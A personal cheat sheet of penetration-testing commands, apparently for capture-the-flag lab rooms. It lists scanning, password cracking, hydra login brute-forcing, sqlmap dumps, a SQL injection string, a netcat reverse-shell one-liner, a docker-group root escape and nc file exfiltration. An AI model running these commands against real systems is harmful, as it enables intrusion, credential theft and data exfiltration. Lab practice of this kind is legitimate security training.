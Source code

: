nmap -sC -sV 10.10.105.34
nmap --script vuln ip -vv
# no ICMP
nmap -Pn ip

# generates hash for /etc/passwd(user should already exist)
openssl passwd -1

# for /etc/shadow
mkpasswd -m sha-512 password 

snap run john-the-ripper --wordlist=~/rockyou.txt hash
# gpg2john
/snap/bin/john-the-ripper.gpg2john

awk 'length($0)==10' rockyou.txt

# blank password
steghide extract -sf

hydra -l <username> -P <path to wordlist> <IP> ssh
hydra -l molly -P rockyou.txt 10.10.57.111 http-post-form "/login:username=molly&password=^PASS^:incorrect" -V

./zip2john 8702.zip > hash  # To bruteforce zip file with password, after that run this hash with john the ripper

stegcracker cute-alien.jpg ~/rockyou.txt

# ssh priv key to hash
ssh2john.py id_rsa


# Reminder
nikto

wfuzz -c -z file,dates.list -d "date=FUZZ" -u http://10.10.181.57/site-log.php --hc 404

sshpass -p !4u2tryhack ssh username@host.example.com

cewl  # Words on web page

sqlmap -r req.txt -p blood_group -D blood --dump-all
sqlmap -r burp.txt --tamper=space2comment --dump-all --dbms sqlite

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.125 4444 >/tmp/f

# Stabilize shell
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
//CTRL + Z to background
stty raw -echo;fg   

# If docker in groups (may help may not)
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# Disclose subdomains
dig axfr hipflasks.thm @10.10.113.230

# Mount samba share under username
sudo mount -t cifs -o username=ubuntu //10.10.7.87/sambashare /media/samba

' OR '1'='1' --

# NFS
showmount --exports 10.10.41.139
mount 10.10.41.139:/opt/conf /media/nfs

rsync --list-only rsync://rsync-connect@10.10.41.139

gpg --import key.asc
gpg --decrypt file.pgp

smbclient -NL 10.10.215.0
smbclient -N //10.10.215.0/VulnNet-Enterprise-Anonymous

# receive
nc -q 1 -l -p 7777 > runme

# send
nc -q 1 10.9.3.125 7777 < /home/catlover/runme
